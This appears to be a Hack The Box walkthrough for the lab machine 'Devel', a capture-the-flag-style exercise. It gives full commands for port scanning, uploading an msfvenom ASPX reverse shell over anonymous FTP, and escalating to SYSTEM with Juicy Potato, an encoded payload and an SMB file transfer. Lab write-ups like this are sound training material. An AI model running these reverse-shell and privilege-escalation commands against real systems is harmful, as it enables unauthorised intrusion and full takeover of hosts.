









# [Devel](https://app.hackthebox.eu/machines/3)

Start with `nmap`:

```bash
# find open TCP ports
sudo masscan -p1-65535 10.10.10.5 --rate=1000 -e tun0 > masscan.txt
tcpports=$(cat masscan.txt | cut -d ' ' -f 4 | cut -d '/' -f 1 | sort -n | tr '\n' ',' | sed 's/,$//')
# TCP deep scan
sudo nmap -sS -p $tcpports -oA tcp --open -Pn --script "default,safe,vuln" -sV 10.10.10.5 &
# TCP quick scan
sudo nmap -v -sS -sC -F --open -Pn -sV 10.10.10.5
# UDP quick scan
sudo nmap -v -sU -F --open -Pn -sV --version-intensity 0 10.10.10.5
```

The TCP quick scan returns the following:



Try connecting over FTP:



This looks like webserver files. Also, write access is given to `anonymous`. Browse to the webserver on port 80:

```bash
firefox http://10.10.10.5/
```


Looking at the HTML source shows `welcome.png`, which was found on the FTP server. This looks like the directory for the FTP server:



Try uploading an ASP webshell:

```bash
# generate an ASP shell
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.27 \
         LPORT=6969 \
         -a x86 \
         -f asp \
         -o bubba.asp
# start listener
rlwrap nc -nvlp 6969
# connect and upload to target over FTP
ftp 10.10.10.5
put bubba.asp
# trigger execution
curl -s -G http://10.10.10.5/bubba.asp
```

But this returns an error:



Try ASPX?

```bash
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.27 \
         LPORT=6969 \
         -a x86 \
         -f aspx \
         -o bubba.aspx
```

Triggering this payload with `curl`, generates the following shell but does not provide `user.txt`?



Looking at current user permissions, there is an interesting one:



`SeImpersonatePrivilege` is a powerful token. This allows for escalation to SYSTEM using the following exploit:

- https://github.com/ohpe/juicy-potato

However the target is x86:

```bash
wmic os get osarchitecture
```



The releases on the exploit's GitHub are x64 only, The following repository provides the same binary but compiled for x86:

- https://github.com/ivanitlearning/Juicy-Potato-x86

Next, a CSLID is needed for the target OS version:



The target is `Windows 7 Enterprise`. Find a CSLID from here that gives `NT AUTHORITY\SYSTEM`:

- https://github.com/ohpe/juicy-potato/tree/master/CLSID

Now download, transfer, and trigger a new shell through the exploit:

```bash
# on kali, download files
wget https://github.com/ivanitlearning/Juicy-Potato-x86/releases/download/1.2/Juicy.Potato.x86.exe
# on kali, generate a new payload
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.27 \
         LPORT=7777 \
         -a x86 --platform windows \
         -e x86/shikata_ga_nai \
         -f exe \
         -o bubba.exe
# on kali, start listener
rlwrap nc -nvlp 7777
# on kali, host files over SMB
sudo impacket-smbserver -smb2support BUBBA .
# on target, transfer files 
robocopy.exe \\10.10.14.27\BUBBA\ %TEMP% Juicy.Potato.x86.exe  /copy:DT /w:1 /r:1 /v 
robocopy.exe \\10.10.14.27\BUBBA\ %TEMP% bubba.exe /copy:DT /w:1 /r:1 /v
# on target, trigger exploit
%TEMP%\Juicy.Potato.x86.exe -l 9876 -p %TEMP%\bubba.exe -t * -c "{659cdea7-489e-11d9-a9cd-000d56965251}"
```

And this returns a shell as `SYSTEM`:



There are probably a few other ways to SYSTEM on this machine as well :wink:

